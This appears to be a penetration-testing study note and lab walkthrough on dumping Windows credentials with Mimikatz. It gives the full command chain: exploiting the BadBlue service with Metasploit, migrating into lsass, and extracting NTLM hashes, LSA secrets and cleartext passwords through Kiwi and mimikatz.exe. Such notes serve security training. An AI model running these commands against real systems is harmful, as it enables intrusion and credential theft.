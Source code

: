 # C - Dumping Hashes with Mimikatz

### **Mimikatz**

* Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
* The SAM (Security Account Manager) database, is a database file on Windows systems that stores hashed user passwords.
* Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
* We can utilize the pre-compiled mimikatz executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

> Note: Mimikatz requires elevated privileges in order to run correctly.

### **Practical Demonstration**

#### **Initial Access**

`nmap -sV $ip` - scan for vuln service.

{% code overflow="wrap" %}
```
# using metasploit to exploit the "BadBlue service"
search badblue
use exploit/windows/http/badblue_passthru
options
set RHOSTS $ip
run
# we get a meterpreter.
sysinfo
getuid
# migrate to lsass process to get NT AUTHORITY.
pgrep lsass  # migrate to a 64bit process in this case, the lsass process.
getuid # we have NT AUTHORITY.
```
{% endcode %}

#### Using Meterpreter Extension \[kiwi]

```bash
# after gaining administrative privileges.
# we can now use the kiwi extension
load kiwi
? # displays the kiwi help commands.
creds_all # dumps all credentials.
lsa_dump_sam #Dump NTLM hashes from the SAM memory.
lsa_dump_secrets #Dump secrets from LSA.
```

#### Using the actual  Mimikatz executable

{% code overflow="wrap" %}
```bash
# 1
# navigate to the C:\Temp directory from the meterprester session.
# kali already has the mimikatz file in it, so we can directly upload it to the vicim Temp dir.
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe #Upload x64 mimikatz executable onto the target system.

# 2
# open a cmd prompt session
shell
.\mimikatz.exe #Launch mimikatz within the target system.

# 3
# Check if current user has the privileges required to use mimikatz.
privilege::debug # if it tells you [Privilege '20' OK] then you are good to go.

# 4
lsadump::sam # Dump NTLM hashes and other info from the SAM memory.
lsadump::secrets # Dump secrets from the LSA.
sekurlsa::logonpasswords # Reveal clear-text passwords that the system might have stored.
# but the system has been configured correctly, we cant find any clear text password.

```
{% endcode %}

